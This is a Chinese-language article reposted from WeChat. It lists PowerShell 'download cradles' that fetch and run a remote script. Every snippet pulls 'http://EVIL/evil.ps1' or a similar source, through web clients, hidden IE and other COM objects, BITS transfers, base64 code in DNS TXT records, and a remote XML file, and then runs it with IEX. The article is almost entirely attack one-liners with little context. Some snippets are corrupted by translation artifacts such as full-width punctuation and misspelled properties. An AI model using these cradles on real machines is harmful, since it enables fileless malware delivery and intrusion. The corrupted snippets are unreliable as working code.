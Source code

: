 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/_TGwzdCZaukvNjDmNIAZvw)

普通下载
----

```
IEX (New-Object Net.Webclient).downloadstring("http://EVIL/evil.ps1")
```

![图片](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDBpxolLMuL6cBNB6CH3QvEwagyY6dgPN7F2Rg4PdJzwh6FCsph3jEtmyCvsG7JkZ3o1GQbXdffUDA/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "微信截图_20201222152419.png")

  

PowerShell 3.0+
---------------

```
IEX (iwr 'http://EVIL/evil.ps1'）
```

  

![图片](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDBpxolLMuL6cBNB6CH3QvEwnWcVdl7rY9VicEo6bE1hz6gaNjPknBaiaUuibQBYbDVIYEeZJADL6icoUw/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "微信截图_20201222152624.png")

  

---

隐藏的IE com对象
-----------

```
`$ie=New-Object -comobject InternetExplorer.Application;``$ie.visible=$False;$ie.navigate('http://EVIL/evil.ps1');``start-sleep -s 5;``$r=$ie.Document.body.innerHTML;``$ie.quit();``IEX $r`
```

  

![图片](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDBpxolLMuL6cBNB6CH3QvEwf9auKMDMy4BauXKk7QLWX2jzicHibD1RF7DcH9rmuNZ0pmDPMrSuiahug/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "微信截图_20201222153942.png")

  

Msxml2.XMLHTTP COM对象
--------------------

```
`$h=New-Object -ComObject Msxml2.XMLHTTP``$h.open('GET','http://EVIL/evil.ps1',$false);``$h.send();``iex $h.responseText`
```

  

  

---

WinHttp COM对象（不识别代理！）
---------------------

```
`$ h = new-object -com WinHttp.WinHttpRequest.5.1;` `$ h.open（'GET'，' http：//EVIL/evil.ps1',$false）;` `$ h.send（）;` `iex $ h.qesponseText`
```

  

  

---

使用bitstransfer
--------------

```
`Import-Module bitstransfer;` `Start-BitsTransfer'http ：//EVIL/evil.ps1'$ env：temp \ t;` `$ r = gc $ env：temp \ t; rm $ env：tempt;` `iex $ r`
```

  

  
  

PowerBreach的DNS TXT方法
---------------------

要执行的代码必须是存储在TXT记录中的base64编码的字符串

```
IEX ([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String(((nslookup -querytype=txt "SERVER" | Select -Pattern '"*"') -split '"'[0]))))
```

```
`<#``<?xml version="1.0"?>``<command>` `<a>` `<execute>Get-Process</execute>` `</a>` `</command>``#>``$a = New-Object System.Xml.XmlDocument``$a.Load("https://gist.githubusercontent.com/subTee/47f16d60efc9f7cfefd62fb7a712ec8d/raw/1ffde429dc4a05f7bc7ffff32017a3133634bc36/gistfile1.txt")``$a.command.a.execute | iex`
```